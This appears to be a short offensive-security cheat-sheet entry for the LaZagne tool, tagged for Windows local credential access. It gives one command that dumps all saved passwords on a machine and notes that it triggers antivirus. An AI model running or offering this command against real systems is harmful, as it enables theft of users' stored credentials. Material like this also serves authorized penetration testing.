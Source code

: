 # Lazagne

% lazagne, dump password
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## lazagne dump all passwords (trig av)
```
lazagne.exe all
```
